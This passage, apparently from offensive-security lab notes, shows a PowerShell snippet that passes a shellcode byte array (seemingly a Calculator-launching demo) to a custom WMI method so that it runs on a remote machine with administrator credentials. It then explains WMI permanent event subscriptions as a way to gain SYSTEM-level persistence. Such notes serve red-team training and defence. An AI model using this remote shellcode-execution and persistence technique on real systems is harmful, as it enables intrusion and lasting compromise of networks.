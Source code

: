 ```powershell
[byte[]]$sc =  @(0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x00 )
Invoke-WmiMethod -Namespace root\cimv2 -Class Win32_Evil -Name ExecShellCode -ArgumentList $sc, $null -ComputerName "COMPUTER01" -Credential "CYEBRLAB\Administrator"
```

### Persistence - WMI Events

WMI has an event infrastructure which provides the capability of receveing notifications and respond changes happening on a system. For example, an event can be triggered on user logon, process creation, registry change, file creation or change and so on. It is possible to create both synchronous or asynchronous queries in order to constanly monitor the system.

An **event consumer** (used to consume event) can be:

- **Temporary**: Receives event notifications as long as the client application/host is active
- **Permanent**: Receives event notifications at all times (even across reboots), it is saved in the WMI repository and runs as SYSTEM.

*Permanent event consumers* are the most interesting and are characterized by:

- **Filter**: The event which occurs
- **Consumer**: The action to be performed when the event occurs
- **Binding**: The established relationship between Filter and Consumer

There are 2 types of WMI events:

- **Intrinsic**: Events which are triggered on a change (creation, modification or deletion) in the standard WMI model. Intrinsic events are system classes included in every namespace. There is a polling time for most of them and it is possible to miss event firings. For example, the creation of a new instance of Win32_LogicalDisk is an __InstanceCreationEvent type.

	- __NamespaceOperationEvent 
	- __NamespaceModificationEvent 
	- __NamespaceDeletionEvent 
	- __NamespaceCreationEvent 
	- __ClassOperationEvent 
	- __ClassDeletionEvent 
	- __ClassModificationEvent
	- __ClassCreationEvent 
	- __InstanceOperationEvent 
	- __InstanceCreationEvent 
	- __MethodInvocationEvent 
	- __InstanceModificationEvent 
	- __InstanceDeletionEvent 
	- __TimerEvent 
